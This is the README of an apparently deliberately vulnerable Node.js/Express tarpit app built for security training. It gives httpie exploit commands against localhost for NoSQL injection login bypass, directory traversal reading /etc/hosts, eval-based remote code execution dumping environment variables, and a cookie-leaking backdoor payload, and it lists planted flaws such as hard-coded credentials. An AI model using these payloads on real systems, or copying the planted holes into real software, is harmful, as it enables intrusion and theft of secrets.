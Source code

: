 # NodeJS Tarpit - Chuck

An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Getting started

:crossed_fingers::crossed_fingers::crossed_fingers: I hope all goes as smooth as possible

### Pre-requisites (Running without docker)

- [NodeJS](https://nodejs.org/en/) Get the latest version
- [MongoDB Community Edition](https://docs.mongodb.com/manual/administration/install-community/) Install Mongodb Community Edition and run setup provided in documentation

### Pre-requisites (Running with docker)

- Docker
- Run the command `make start`

### Setup (if not using docker)

start mongoDB server (`sudo mongod`)
start mongoDB client (`mongo`)
Insert user rows using the query

```bash
node db-init.js
```

### Installation (if not using docker)

Run `npm install` to install all dependencies for the project to run

### Run Application (if not using docker)

Run `npm run server` to start the application and you will provided a local address to open in browser

## Exploits

### No SQL Injection

Login can be exploited with the following query as the username and password are not validated

```bash
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

### Directory Traversal Vulnerability

Can get access to any file on the server using the command

```bash
http GET http://localhost:8089/api/v1/image-lookup image=="/etc/hosts"
```

### Remote Code Execution

RCE exploting `eval` on server

```bash
http GET http://localhost:8089/user-input userInput=="console.log(process.env)"
```

Injecting script onto user browser

```bash
http GET http://localhost:8089/user-input userInput=="alert('You system is under our control now.')"
```

Can exploit the whole server by injecting something like the code below (https://medium.com/lift-security/in-memory-backdoor-for-node-js-express-apps-2a3f4301925b)

```bash
http GET http://localhost:8089/user-input userInput=="res.cookie('appLocals',JSON.stringify(req.app.locals))"
```

## Vulnerabilities

- [x] [directory traversal](src/Controllers/ImageLookup.js#L9)
- [x] [nosql injection](src/Controllers/Login.js#L33...L36)
- [x] [remote code execution](src/views.js#L19): [UserInput](src/Views/UserInput.pug#L6)
- [x] [sensitive data leak](src/Controllers/Login.js#L47)
- [x] [insider attack](src/server.js#L22...L31)
- [x] [business logic flaw](src/Controllers/Order.js#L69...L79)
- [x] [business logic flaw](src/Controllers/Order.js#L100...L110)
- [x] [hard coded credentials](src/Controllers/Order.js#L55...L63)
